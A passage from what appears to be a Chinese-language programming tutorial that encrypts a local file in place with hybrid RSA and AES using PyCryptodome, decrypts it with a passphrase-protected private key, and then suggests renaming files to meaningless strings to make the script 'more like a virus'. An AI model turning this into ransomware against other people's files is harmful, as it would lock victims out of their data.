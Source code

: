 ```bash 折叠代码
        out_file.write(ciphertext)


Encrypt("e://test/music.mp3")

```

我们打开一个文件用于写入数据。接着我们导入公钥赋给一个变量，创建一个 16 字节的会话密钥。在这个例子中，我们将使用混合加密方法，即 PKCS#1 OAEP ，也就是最优非对称加密填充。这允许我们向文件中写入任意长度的数据。接着我们创建 AES 加密，要加密的数据，然后加密数据。我们将得到加密的文本和消息认证码。最后，我们将随机数，消息认证码和加密的文本写入文件。

加密后，这个时候你肯定没有办法按照原来的方式打开你的文件了，或者你能打开，显示的也是乱码。

### 私钥解密

```bash 折叠代码
from Crypto.PublicKey import RSA
from Crypto.Cipher import AES, PKCS1_OAEP


def Descrypt(filename):
    code = 'nooneknows'
    with open(filename, 'rb') as fobj:
        # 导入私钥
        private_key = RSA.import_key(open('zmy_rsa').read(), passphrase=code)
        # 会话密钥， 随机数，消息认证码，机密的数据
        enc_session_key, nonce, tag, ciphertext = [fobj.read(x)
                                                   for x in (private_key.size_in_bytes(),
                                                             16, 16, -1)]
        cipher_rsa = PKCS1_OAEP.new(private_key)
        session_key = cipher_rsa.decrypt(enc_session_key)
        cipher_aes = AES.new(session_key, AES.MODE_EAX, nonce)
        # 解密
        data = cipher_aes.decrypt_and_verify(ciphertext, tag)

    with open(filename, 'wb') as wobj:
        wobj.write(data)


Descrypt("e://test/music.mp3")

```

我们先以二进制模式读取我们的加密文件，然后导入私钥。注意，当你导私钥时，需要提供一个密码，否则会出现错误。然后，我们文件中读取数据，首先是加密的会话密钥，然后是 16 字节的随机数和 16 字节的消息认证码，最后是剩下的加密的数据。

接下来我们需要解密出会话密钥，重新创建 AES 密钥，然后解密出数据。

解密完成后，我们会发现刚刚打不开或者无法正确显示的文件，又恢复正常了！

### 变更文件名

当然至此，文件加密的部分已经完成，但是为了使这个更像病毒，我们可以模拟hacker的做法，直接把整个文件的后缀名改掉，或者更混蛋一点，我就是想搞破坏，直接把文件名字改成一串没有意义的数值：

举例比如：blog2.rar ==> yFmcuIzZvxmY.liuxp
